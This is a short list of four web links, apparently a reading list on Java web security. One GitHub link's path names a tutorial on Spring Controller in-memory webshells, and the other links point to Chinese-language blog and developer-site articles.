https://github.com/dota-st/JavaSec/blob/master/05-%E5%86%85%E5%AD%98%E9%A9%AC%E4%B8%93%E5%8C%BA/4-Spring%E5%86%85%E5%AD%98%E9%A9%AC%E4%B9%8BController/Controller%E5%86%85%E5%AD%98%E9%A9%AC.md

https://www.cnblogs.com/zpchcbd/p/15544419.html

https://blog.csdn.net/ywg_1994/article/details/112800703

https://cloud.tencent.com/developer/article/2355059
